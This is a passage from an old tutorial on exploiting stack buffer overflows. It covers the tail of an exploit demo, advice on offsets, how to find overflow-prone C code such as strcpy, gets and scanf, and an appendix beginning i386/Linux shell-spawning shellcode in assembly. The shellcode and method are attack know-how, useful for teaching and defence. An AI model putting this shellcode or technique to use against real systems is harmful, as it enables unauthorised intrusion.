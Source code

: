












Warning: some arguments in previous message were lost
$
------------------------------------------------------------------------------

   On the first try!  It has certainly increased our odds.  Depending how 
much environment data the exploit program has compared with the program 
you are trying to exploit the guessed address may be to low or to high. 
Experiment both with positive and negative offsets.


                              Finding Buffer Overflows
                              ~~~~~~~~~~~~~~~~~~~~~~~~

   As stated earlier, buffer overflows are the result of stuffing more
information into a buffer than it is meant to hold.  Since C does not have any
built-in bounds checking, overflows often manifest themselves as writing past
the end of a character array.  The standard C library provides a number of
functions for copying or appending strings, that perform no boundary checking.
They include: strcat(), strcpy(), sprintf(), and vsprintf(). These functions 
operate on null-terminated strings, and do not check for overflow of the 
receiving string.  gets() is a function that reads a line from stdin into 
a buffer until either a terminating newline or EOF.  It performs no checks for
buffer overflows.  The scanf() family of functions can also be a problem if 
you are matching a sequence of non-white-space characters (%s), or matching a 
non-empty sequence of characters from a specified set (%[]), and the array 
pointed to by the char pointer, is not large enough to accept the whole 
sequence of characters, and you have not defined the optional maximum field 
width.  If the target of any of these functions is a buffer of static size, 
and its other argument was somehow derived from user input there is a good
posibility that you might be able to exploit a buffer overflow.

   Another usual programming construct we find is the use of a while loop to
read one character at a time into a buffer from stdin or some file until the
end of line, end of file, or some other delimiter is reached.  This type of
construct usually uses one of these functions: getc(), fgetc(), or getchar().
If there is no explicit checks for overflows in the while loop, such programs 
are easily exploited.

   To conclude, grep(1) is your friend.  The sources for free operating
systems and their utilities is readily available.  This fact becomes quite
interesting once you realize that many comercial operating systems utilities
where derived from the same sources as the free ones.  Use the source d00d.


     Appendix A - Shellcode for Different Operating Systems/Architectures
     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

i386/Linux
------------------------------------------------------------------------------
        jmp    0x1f
        popl   %esi
        movl   %esi,0x8(%esi)
        xorl   %eax,%eax
	movb   %eax,0x7(%esi)
        movl   %eax,0xc(%esi)
        movb   $0xb,%al
        movl   %esi,%ebx
        leal   0x8(%esi),%ecx
        leal   0xc(%esi),%edx
        int    $0x80